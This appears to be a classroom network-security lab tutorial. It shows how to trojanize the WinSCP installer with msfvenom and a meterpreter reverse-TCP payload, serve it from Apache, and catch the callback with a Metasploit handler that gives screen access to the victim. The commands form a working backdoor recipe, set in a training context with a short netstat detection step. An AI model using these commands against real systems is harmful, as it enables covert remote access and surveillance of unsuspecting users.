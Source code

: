 ```yaml
---
layout: editorial
---
```


# Backdoor a Program

## Backdoor Programs

[Video Demonstration](https://youtu.be/C1A2Li2\_H-Q)

### Objective

Download a legitimate program and add a backdoor to obtain remote access to a victim computer.

### Discussion

This type of attack is how threat actors gain access to remote computers of users behind restrictive firewalls. Port 80, 8080, 443, etc. are usually allowed outbound to the internet. In many organizations, any port is allowed outbound. A threat actor can send an email attachment that contains a backdoor and work the way you will see it in this lab.

Also, when users download arbitrary programs from the internet, they could inadvertently inject malicious code into a computer that impacts the organization. Similarly, if a threat actor can gain access to a reputable website and their downloads, they could also inject a backdoor into the legit program and when someone downloads and executes it, it could allow threat actors to gain access into the organization. There have been many cases of this occurring. The most high-profile attack of this type was the Solarwinds attack. Threat actors gained access to the development environment of the Solarwinds source code. They injected a backdoor that was undetected for a significant amount of time. Solarwinds products are used by private industry, state and federal governments. The tool that was compromised is used to monitor network activity on a network such as computers which are up and running, the services running on the host, and other essential network functions. You can imagine the problem with this type of attack. The tool used to monitor networks was compromised and used in the healthcare, financial, military, federal, and state government levels. The attack allowed unrestricted access to computers because the Solarwinds monitoring tool is allowed unrestricted access to virtually every computer and device on a network.

Solarwinds attack: [https://www.npr.org/2021/04/16/985439655/a-worst-nightmare-cyberattack-the-untold-story-of-the-solarwinds-hack](https://www.npr.org/2021/04/16/985439655/a-worst-nightmare-cyberattack-the-untold-story-of-the-solarwinds-hack)

### Preparation

1. Ensure Alice’s Windows 7 system is on her _LAN_ segment.
2. Eve, put your Kali network adapter on the NETSEC-WAN segment.
3. Alice and Eve, make a note of Eve’s IP address.
4. Eve, download the original version of WinSCP to your Kali workstation: [https://tinyurl.com/2nvuxe7m](https://tinyurl.com/2nvuxe7m) (**PAY ATTENTION TO THE FOLDER WHERE IT IS DOWNLOADED**)
   1. NOTE: [WinSCP ](https://winscp.net/eng/index.php)is a legit program used to transfer files over a secure connection between computers.

### Start the Lab

Eve, open a terminal on Kali. The default location to download a file will be “Downloads” and this tutorial assumes that location. Run the commands below (Replace X.X.X.X with the IP of your Kali workstation):

**cd \~/Downloads**

**ls**

Be sure you see the “WinSCP.exe” file before continuing.

**msfvenom -x WinSCP.exe -p windows/meterpreter/reverse\_tcp LHOST=X.X.X.X LPORT=8080 -f exe -o WinSCP-3.8.5.exe**

The above command may take a few minutes to run and generate the payload. The program \*\*msfvenom \*\*is a game changer in the world of hacking. It makes it very easy to create backdoor programs. It used to take a lot of steps and programming skills to create a backdoor program. In this lab, we are backdooring a legit program, though \*\*msfvenom \*\*can create its own backdoor.

After the file has been created, copy the file to the web server root directory on your Kali workstation.

**sudo cp WinSCP-3.8.5.exe /var/www/html**

Then start the web server:

**sudo service apache2 start**

Then check to be sure the web server is running:

**sudo service apache2 status**

Apache is a very popular web server. A web server serves web pages and other interactive content. Anytime you use your web browser to access a site, it is running on a web server.

**Common job interview question is what port does a web server run on and, by default, it is port 80.**

### Start Metasploit.

Eve, run the following commands to start the “Listener” (this is the same as the[ reverse shell lab ](https://docs.google.com/document/d/0B0smSYOArSbNZGFQUUtxa3BLWlE/edit?usp=sharing\&ouid=117998309226657164937\&resourcekey=0-ZN0HmGtCZ71EQSIW0TforA\&rtpof=true\&sd=true)where Eve controlled her own server and ran ncat and waited for Alice to connect to it from behind the firewall). Replace X.X.X.X below with the IP address of your Kali workstation.

\*\*use exploit/multi/handler \*\*

\*\*set PAYLOAD windows/meterpreter/reverse\_tcp \*\*

**set LHOST X.X.X.X**

**set LPORT 8080**

**exploit**

The above command will listen on port 8080 for connections and it will connect to Eve’s machine (your Kali workstation). Review the reverse shell lab if necessary. In the msfvenom command above, you took a legitimate program and wrapped a program around it that will push your Kali attacking machine a shell from the victim (your Windows 7 system). It works just like the[ reverse shell lab](https://docs.google.com/document/d/0B0smSYOArSbNZGFQUUtxa3BLWlE/edit?usp=sharing\&ouid=117998309226657164937\&resourcekey=0-ZN0HmGtCZ71EQSIW0TforA\&rtpof=true\&sd=true) when eve uses ncat to start a listener and Alice connections from behind the firewall.

```
REFERENCE ONLY  This is not required for this lab.

If you are an attacker (or pen tester) and you have multiple targets, you can save the above commands to a file and run:

msconsole -q -r file1.rc
msconsole -q -r file2.rc
msconsole -q -r file3.rc

And wait for one of the victims to connect to the Metasploit session.
```

### Download the Backdoored program

Alice, open internet explorer and browse to Eve’s IP address:

**http://X.X.X.X/WinSCP-3.8.5.exe**

PAY ATTENTION TO WHERE IT DOWNLOADED.

When the file has downloaded, double-click on it and open it You will see the WinSCP default screen.

Alice and Eve, look at Eve’s Metasploit session. You will see that the WinSCP program connected to Eve’s listening service. **Also, note that the WinSCP still works as normal.**

### Back to Eve’s Metasploit session

Now that you have access to the victim system, you are in a meterpreter shell. Meterpreter is a memory resident program so when the machine reboots, it will not have any traces on the victim’s computer. Meterpreter has many functions that allow dumping passwords, listing running processes, enabling camera, sound, etc. Type the command:

**screenshare**

You may get a popup to create a password for a keyring, you can “Cancel” those windows. The web browser on your Kali workstation will open and show the desktop of the victim machine.

Now have your partner open programs on their Windows 7 system and watch their activity from your Kali workstation.

### Detecting the attack

Alice, since you know Eve’s IP address, open a command prompt on your Windows 7 system. Run the command:\
\
**netstat -an**

See if you can detect the connection to Eve’s computer on port 8080. The command netstat is used to list **net**work **stat**istics. One feature is to list all open ports and connected IPs.

## Switch roles.
